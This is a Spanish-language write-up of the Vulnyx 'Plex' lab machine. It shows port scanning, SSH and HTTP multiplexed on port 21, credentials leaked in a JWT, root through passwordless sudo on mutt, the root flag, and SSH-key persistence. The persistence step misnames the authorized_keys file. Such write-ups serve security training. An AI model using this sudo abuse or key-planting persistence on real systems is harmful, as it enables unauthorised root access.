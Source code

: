 ```yaml
---
title: Vulnyx - Plex
author: estx
date: 2024-03-11 17:51:00 +0800
categories: [Writeup, Vulnyx, Easy]
tags: [Linux, 'Multiplexing Ports', 'Information Leaked' , 'Mutt']
math: true
mermaid: true
image:
  path: /assets/images/Vulnyx/Easy/Plex/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Plex Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnhub.

Técnicas usadas: **Multiplexing Ports, Mutt**


### Fase de Reconocimiento 🧣

Como primer punto, identificamos la dirección IP de la **`Máquina Vulnyx`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.61	08:00:27:c6:4f:1d	PCS Systemtechnik GmbH
```
> Con esto identificamos todos los dispositivos en nuestra red local.

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n 192.168.100.61 -oG puertos`**

  ![](/assets/images/Vulnyx/Easy/Plex/01-ports.png)

b. Vemos la version del servicio que se está ejecutando en el **puerto 21**

* **`nmap -p21 -sCV <IP> -oN versiones`**

  ![](/assets/images/Vulnyx/Easy/Plex/02-versions.png)

> Lo que más nos llama la atención aquí, es que en el **puerto 21** se está ejecutando el servicio `SSH`. Esto no hace pensar en que se configuró **`Multiplexing Ports`**, eso permite asignar múltiples servicios a un único puerto. La ventaja es que se conservan mejor los recursos de red ya que se usa una única conexión, pero, conlleva sobrecarga o congestiones. [Ports and Their Multiplexing](https://www.vskills.in/certification/tutorial/ports-and-their-multiplexing/)
{: .prompt-info }


c. Con lo anterior en mente, realizamos intentos de conexión con diferentes servicios

```bash
❯ ftp 192.168.100.61
Connected to 192.168.100.61.
SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u4
------------------------------------------
❯ ssh 192.168.100.61 -p 21
root@192.168.100.61's password: 
------------------------------------------
❯ curl -s -X GET http://192.168.100.61:21

Hello Bro!
You only need a port to be happy...
```

* Al realizar un cURL nos dan una pista. Entonces seguimos investigando por la parta de un servicio HTTP

    ```bash
    ❯ dirsearch -u http://192.168.100.61:21/
    
    ...
    [14:32:39] 200 -   49B  - /index.html
    [14:32:49] 200 -   58B  - /robots.txt
    [14:32:49] 200 -    8KB - /server-status/
    [14:32:49] 200 -    8KB - /server-status
    ```

* Vemos el contenido del fichero **robots.txt**

    ```bash
    ❯ curl -s -X GET http://192.168.100.61:21/robots.txt
    User-agent: *
    Disallow: /9a618248b64db62d15b300a07b00580b
    ```

* Encontramos la ruta `/9a618248b64db62d15b300a07b00580b` y si le hacemos un cURL nos redireccionará, por lo que, habilitamos el redireccionamiento con cURL

    ```bash
    ❯ curl -s -X GET http://192.168.100.61:21/9a618248b64db62d15b300a07b00580b -L
    eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiIiLCJpYXQiOm51bGwsImV4cCI6bnVsbCwiYXVkIjoiIiwic3ViIjoiIiwiaWQiOiIxIiwidXNlcm5hbWUiOiJtYXVybyIsInBhc3N3b3JkIjoibUB1UjAxMjMhIn0.zMeVhhqARJ6YzuMtwahGQnegFDhF7r0BCPf3H9ljDIk
    ```

d. Decodeamos el JWT en [JWT.io](https://jwt.io/)

  ![](/assets/images/Vulnyx/Easy/Plex/03-jwt.png)

> Tenemos las credenciales de `mauro:m@uR0123!`
{: .prompt-tip }


### Escalada de Privilegios 💹

a. Nos autenticamos como **mauro** en el servicio SSH y enumeramos permisos a nivel de sudoers

```bash
❯ sshpass -p 'm@uR0123!' ssh mauro@192.168.100.61 -p 21
mauro@plex:~$ sudo -l
Matching Defaults entries for mauro on plex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mauro may run the following commands on plex:
    (root) NOPASSWD: /usr/bin/mutt
```

> **`Mutt`:** Es un cliente de correo electrónico basado en texto (Línea de comandos) [¿Qué es Mutt?](https://es.linux-console.net/?p=640)
{: .prompt-info }

b. Iniciamos mutt como un usuario root y listamos los comandos disponibles (Lo hacemos tecleando `?`)

![](/assets/images/Vulnyx/Easy/Plex/04-list.png)

c. Ejecutamos un comando para spawnear una bash

![](/assets/images/Vulnyx/Easy/Plex/05-shell.png)

```bash
root@plex:~# cat root.txt 
943f08fb32181d5f8171332146f39e41
```

### Extras 🌟

a. Para entablar persistencia, registraremos nuestra **clave pública RSA** como claves autorizadas en el usuario root

```bash
❯ ssh-keygen
Generating public/private rsa key pair.
```

* Copiamos el contenido del archivo **id_rsa.pub** y lo colocamos en `/root/.ssh/authorized_keys`

```bash
root@plex:~# mkdir .ssh
root@plex:~# cd .ssh/
root@plex:~/.ssh# touch authorized-keys

root@plex:~/.ssh# echo -n 'ssh-rsa ...' > authorized-keys
```

b. Y ahora ya podemos autenticarnos directamente como **root** por SSH

```bash
❯ ssh root@192.168.100.61 -p 21 -i id_rsa
root@plex:~#
```